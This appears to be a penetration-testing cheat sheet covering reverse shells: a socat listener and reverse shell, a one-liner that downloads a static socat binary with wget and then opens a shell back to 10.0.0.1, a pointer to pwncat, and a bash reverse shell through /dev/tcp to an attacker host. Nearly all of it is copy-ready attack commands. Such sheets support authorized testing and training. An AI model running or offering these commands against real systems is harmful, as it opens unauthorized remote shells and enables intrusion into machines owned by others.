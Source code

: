 ```




<!--- category: Webshell --->
<!--- id: socat --->
<!--- title: Shell: Socat --->
<!--- keywords:  --->
## Shell: Socat

Socat is a nc on steroids. It allows authentication, encryption of communications and port forwarding.<br/>
It is rarely found on the servers, it must be uploaded.<br/>
Start a listening socat:
```
$ socat file:`tty`,raw,echo=0 TCP-L:4444
```

Launch reverse shell back to 10.0.0.1:4444
```
$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444
```

Automate socat upload and the reverse shell:
```
$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```




<!--- category: Webshell --->
<!--- id: pwncat --->
<!--- title: Shell: Pwncat --->
<!--- keywords:  --->
## Shell: Pwncat

Pwncat is an upgraded nc on steroids too. 
```
https://github.com/cytopia/pwncat
```




<!--- category: Webshell --->
<!--- id: bash --->
<!--- title: Reverse shell: Bash --->
<!--- keywords:  --->
## Reverse shell: Bash

Netcat and python are not installed on the server. It is still possible to launch a reverse shell in bash.<br/>
Launch a listening nc on your host:
```
nc -lvp 4444
```

Launch the reverse shell on your target:
```
bash -i >& /dev/tcp/IPKALI/4444 0>&1
```

```